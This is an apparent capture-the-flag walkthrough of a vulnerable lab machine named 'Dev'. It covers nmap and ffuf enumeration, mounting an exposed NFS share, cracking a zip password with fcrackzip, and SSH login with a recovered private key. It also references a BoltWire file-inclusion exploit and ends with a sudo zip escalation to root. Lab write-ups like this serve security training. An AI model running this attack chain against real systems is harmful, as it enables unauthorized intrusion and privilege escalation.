

# Dev

Find the IP first which for me is 172.16.2.130

# Scanning and Enumeration

Lets start with a nmap scan

```jsx
nmap -T4 -A -p- 172.16.2.130
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 16:39 PKT
Nmap scan report for 172.16.2.130
Host is up (0.00058s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd96ec082fb1ea06cafc468a7e8ae355 (RSA)
|   256 56323b9f482de07e1bdf20f80360565e (ECDSA)
|_  256 95dd20ee6f01b6e1432e3cf438035b36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      32965/udp6  mountd
|   100005  1,2,3      42209/tcp   mountd
|   100005  1,2,3      52173/tcp6  mountd
|   100005  1,2,3      53325/udp   mountd
|   100021  1,3,4      38299/tcp6  nlockmgr
|   100021  1,3,4      44143/tcp   nlockmgr
|   100021  1,3,4      49037/udp   nlockmgr
|   100021  1,3,4      55849/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
33907/tcp open  mountd   1-3 (RPC #100005)
42209/tcp open  mountd   1-3 (RPC #100005)
44143/tcp open  nlockmgr 1-4 (RPC #100021)
46549/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 00:0C:29:66:9D:BC (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.58 ms 172.16.2.130

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```

<aside>
💡 Potential Targets:
- 80
- 8080
- 2049

</aside>

# Port 80 scan:

Bolt CMS



```jsx

**ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://172.16.2.130/FUZZ**

```

From the results, we 

```jsx
public                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 2ms]
src                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 1ms]
app                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 3ms]
```

public and src are of no use but app has some contents.


# Port 8080 scan:

PHP- info page


```jsx
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://172.16.2.130:8080/FUZZ
```

From here, we get dev but its not useful

# Port 2049 scan:

Lets try to view if there are any mounts

```jsx
┌──(wahaj㉿wahaj)-[~]
└─$ showmount -e 172.16.2.130
Export list for 172.16.2.130:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
┌──(wahaj㉿wahaj)-[~]
└─$ sudo mkdir /mnt/dev            
[sudo] password for wahaj:                                                                                                                                                           
┌──(wahaj㉿wahaj)-[~]
└─$ sudo su            
┌──(root㉿wahaj)-[/home/wahaj]
└─#  mount -t nfs 172.16.2.130:/srv/nfs /mnt/dev
                                                                                                                                                               
┌──(root㉿wahaj)-[/home/wahaj]
└─#
┌──(root㉿wahaj)-[/home/wahaj]
└─# cd /mnt/dev
                                                                                                                                                               
┌──(root㉿wahaj)-[/mnt/dev]
└─# ls
save.zip
                                                                                                                                                               
┌──(root㉿wahaj)-[/mnt/dev]
└─# unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password:
```

Since, we dont have the password, lets try to crack it.

┌──(root㉿wahaj)-[/mnt/dev]
└─# fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)

PASSWORD FOUND!!!!: pw == java101

Now we can unzip,

```jsx
┌──(root㉿wahaj)-[/mnt/dev]
└─# unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt
```

<aside>
💡 The id_rsa is a rsa key and todo.txt has

</aside>

```jsx
┌──(root㉿wahaj)-[/mnt/dev]
└─# cat todo.txt
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
```

<aside>
💡 We could try to ssh using jp account, but we dont know if that even exists andw e dont know the apssword

</aside>

```jsx
┌──(root㉿wahaj)-[/mnt/dev]
└─# ssh -i id_rsa jp@172.16.2.130                                              
The authenticity of host '172.16.2.130 (172.16.2.130)' can't be established.
ED25519 key fingerprint is SHA256:NHMY4yX3pvvY0+B19v9tKZ+FdH9JOewJJKnKy2B0tW8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.16.2.130' (ED25519) to the list of known hosts.
jp@172.16.2.130's password: 
Permission denied, please try again.
jp@172.16.2.130's password:
```

# Continuing app directory

In the config/config.yml we found something


Lets launch up google and see if we can do anything with the boltwire page on 8080.

<aside>
💡 Apparently there is one
[https://www.exploit-db.com/exploits/48411](https://www.exploit-db.com/exploits/48411)

</aside>


We have a remote file inclusion attack ready to go.

Example usage on the website.


And we got the etc/passwd directory


<aside>
💡 We cant run shadow but this is a good point.

</aside>

By observation, we find that jp was jeanpaul and he was a user.

```jsx
┌──(root㉿wahaj)-[/mnt/dev]
└─# ssh -i id_rsa jeanpaul@172.16.2.130
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$
```

<aside>
💡 ****************SSH WORKS NOW****************

</aside>

Checking Privilegs

```jsx
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
```

We only have zip privileges as sudo.

<aside>
💡 A great website for checking escalations is gtfo bin, lets check that
[https://gtfobins.github.io/](https://gtfobins.github.io/)

</aside>

And with the sudo payload, we are in

```jsx
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

and we are done

